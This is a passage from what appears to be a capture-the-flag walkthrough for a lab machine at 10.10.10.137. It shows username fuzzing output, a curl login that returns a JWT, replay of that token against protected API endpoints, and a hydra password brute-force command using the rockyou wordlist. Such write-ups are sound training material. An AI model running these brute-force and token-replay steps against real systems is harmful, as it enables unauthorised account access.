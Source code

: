 ```
000000006:   403        0 L      1 W      9 Ch        "chihiro"                                        
000000010:   403        0 L      1 W      9 Ch        "luke.io"                                        
000000004:   403        0 L      1 W      9 Ch        "derry"                                          
000000007:   403        0 L      1 W      9 Ch        "root"                                           
000000011:   403        0 L      1 W      9 Ch        "contact@luke.io"                                
000000005:   403        0 L      1 W      9 Ch        "Chihiro"                                        
000000003:   403        0 L      1 W      9 Ch        "Derry"                                          
000000009:   403        0 L      1 W      9 Ch        "Luke.io"                                        
000000002:   403        0 L      1 W      9 Ch        "luke"      
```

The admin username produced a different response (219 characters and not the usual 9 char "forbidden" ).  
By looking at the json response we have our auth token:
```
> > curl --header "Content-Type: application/json" --request POST --data '{"password":"Zk6heYCyv6ZE9Xcg", "username":"admin"}' http://10.10.10.137:3000/login

{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjExNzQ4MTU3LCJleHAiOjE2MTE4MzQ1NTd9.Eb7CeW0Fm0nULxLA_IaHAXWTfRt2EtSYFmIRTjSLLHU"}
```

The auth token can now be passed in the header to have access to the resources we want. The token has to be passed in the Authorization header.  
```
>curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjExNzQ5OTUxLCJleHAiOjE2MTE4MzYzNTF9.htR21iH9laL4uWjfiunYcn1xGkHhIn-CP8A1VgADyrc' http://10.10.10.137:3000

{"message":"Welcome admin ! "}
```
Now we know that out auth token works. We can use it to visit the /users tab
```
> curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjExNzQ5OTUxLCJleHAiOjE2MTE4MzYzNTF9.htR21iH9laL4uWjfiunYcn1xGkHhIn-CP8A1VgADyrc' http://10.10.10.137:3000/users


[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

Now we have a bunch of new username that we can try in the logins. However it does not seem to work.  
We run hydra on login.php with username Yuri/yuri (the /login.php is the login for the beta version. Yuri is the beta tester as we discovered some moments before.  
```
hydra -L beta_tester -P /usr/share/wordlists/rockyou.txt -v 10.10.10.137 http-post-form '/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Incorrect'
```
